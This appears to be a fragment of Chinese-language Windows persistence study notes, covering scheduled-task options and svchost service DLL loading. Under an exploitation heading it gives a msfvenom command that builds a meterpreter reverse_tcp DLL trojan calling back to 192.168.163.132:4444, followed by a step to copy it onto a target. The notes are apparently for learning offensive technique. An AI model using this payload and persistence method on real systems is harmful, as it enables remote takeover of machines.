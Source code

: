 - [ ] todo📅 2025-08-06 
**查询任务(/query)**

**删除任务(/delete)**

**修改任务(/change)**

**运行任务(/run)**

**停止任务(/end)**

**计划类型(/sc)**


| 类型      | 描述        | 实例  |
| ------- | --------- | --- |
| once    | 一次性任务     |     |
| daily   | 每天执行任务    |     |
| weekly  | 每周执行任务    |     |
| monthly | 每月执行任务    |     |
| onstart | 系统启动时执行任务 |     |
| onlogon | 用户登录时执行任务 |     |
| onidle  | 系统空闲时执行任务 |     |

### 3.5. svhost 宿主服务加载 dll

`svchost.exe`是 Windows 操作系统中的一个关键系统进程，用于托管和运行 Windows 系统中的多个服务。它通过动态链接库（DLL）文件来执行服务任务，而不是直接从可执行文件（EXE）运行服务。
`svchost.exe` 通过将服务注册到系统中，并根据注册表配置加载对应的 DLL 文件，从而启动和管理各个服务。

服务注册表路径：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\<ServiceName>`

#### 3.5.1. 漏洞利用

##### 3.5.1.1. msf 生成 dll 木马

```batch
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.163.132 LPORT=4444 -f dll > mm.dll
```

将生成的 mm.dll 复制到目标系统

- [ ] todo📅 2025-08-06 
